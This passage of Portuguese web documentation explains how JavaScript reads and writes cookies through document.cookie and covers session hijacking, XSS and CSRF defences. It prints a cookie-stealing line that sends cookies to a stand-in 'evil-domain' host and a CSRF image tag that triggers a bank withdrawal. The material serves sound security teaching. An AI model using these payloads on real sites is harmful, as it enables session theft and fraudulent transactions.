 ### Acesso via JavaScript usando `Document.cookie`

Novos cookies podem ser também criados via JavaScript usando a propriedade {{domxref("Document.cookie")}} e, se a diretiva `HttpOnly` não está configurada, os cookies existentes podem ser acessados pelo JavaScript também.

```js
document.cookie = "yummy_cookie=choco";
document.cookie = "tasty_cookie=strawberry";
console.log(document.cookie);
// logs "yummy_cookie=choco; tasty_cookie=strawberry"
```

Consulte as questões de segurança na seção [Segurança](/pt-BR/docs/Web/HTTP/Cookies#Security) a seguir. Os cookies disponíveis ao JavaScript podem ser roubados usando XSS.

## Segurança

> **Nota:** Informações confidenciais ou restritas nunca devem ser transmitidas via cookies HTTP, já que todo o mecanismo é intrinsecamente inseguro.

### Sequestro de sessões e XSS

Os cookies geralmente são usados em aplicações web para identificar um usuário e sua sessão autenticada, portanto roubar um cookie pode levar ao sequestro da sessão do usuário autenticado. As formas mais comuns de roubar cookies incluem Engenharia Social ou exploração de uma vulnerabilidade {{Glossary("XSS")}} em uma aplicação.

```js
new Image().src =
  "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

O atributo `HttpOnly` do cookie pode ajudar a minimizar este ataque ao prevenir o acesso ao valor do cookie usando JavaScript.

### Requisição forjada entre sites (CSRF)

[A Wikipedia](https://en.wikipedia.org/wiki/HTTP_cookie#Cross-site_request_forgery) menciona um bom exemplo de {{Glossary("CSRF")}}. Nesta situação, alguém inclui uma imagem que não é realmente uma imagem, como por exemplo em um chat ou fórum sem filtro, mas sim uma requisição para o servidor de um banco para sacar dinheiro:

```html
<img
  src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory" />
```

Agora, se você estiver logado na sua conta no banco e seus cookies ainda são válidos, e não há mais nenhuma validação, você vai transferir o dinheiro assim que carregar o código HTML que contém a imagem. Existem algumas técnicas que são usadas para evitar ataques deste tipo:

- Assim como {{Glossary("XSS")}}, filtrar entradas de usuário é importante.
- Sempre deve haver uma confirmação antes de qualquer ação restrita.
- Cookies usados para ações confidenciais sempre devem ter um tempo de vida restrito.
- Para mais dicas de proteção, consulte o [OWASP CSRF prevention cheat sheet](<https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet>).
